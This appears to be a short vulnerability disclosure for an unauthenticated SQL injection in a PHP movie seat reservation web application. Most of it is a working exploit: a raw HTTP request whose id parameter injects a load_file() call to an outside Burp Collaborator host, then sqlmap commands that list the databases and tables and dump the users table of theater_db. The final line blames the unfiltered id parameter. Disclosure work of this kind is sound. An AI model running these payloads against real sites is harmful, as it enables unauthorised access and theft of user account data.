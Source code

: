 # Movie Seat Reservation System Sql Injection
* `Note` => exploit don't need login account
# Exploit 
* Use Burp Suite capture request with payload
![image](https://user-images.githubusercontent.com/79050415/160153517-9ff10b72-e677-428d-b92b-9588f9e0bda7.png)

```python
GET /Movie_Seat_Reservation_System/index.php?page=reserve&id=(select%20load_file('%5c%5c%5c%5coumvuo0qifuf18d8xd3vrtn81z7svqjhl5cs3gs.burpcollaborator.net%5c%5cbxr')) HTTP/1.1
Host: 192.168.1.101:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
Then save as `moviesqli.txt`
* Exploit with `Sqlmap`
```python
python3 sqlmap.py -r moviesqli.txt --current-user
```
![image](https://user-images.githubusercontent.com/79050415/160154272-be4be6b5-64a1-495c-937e-65f50c2de43d.png)

```python
python3 sqlmap.py -r moviesqli.txt  --batch -dbs
```
![image](https://user-images.githubusercontent.com/79050415/160154484-41d6fc43-fd58-4180-9b60-440a554befc4.png)

```python3 
python3 sqlmap.py -r moviesqli.txt  --batch -tables -D theater_db
```
![image](https://user-images.githubusercontent.com/79050415/160154696-86ce3ceb-c2f3-4d58-b095-afd061e89ad3.png)

```python3 
python3 sqlmap.py -r moviesqli.txt  --batch -columns -D theater_db -T users -dump
```
![image](https://user-images.githubusercontent.com/79050415/160154865-82a9b67a-e37d-4cb1-aad2-76df5a18c5f5.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/160155334-4b64f616-2719-4e99-a8e0-dcbec0d42ea1.png)

* No filter `id` when inserting data to database





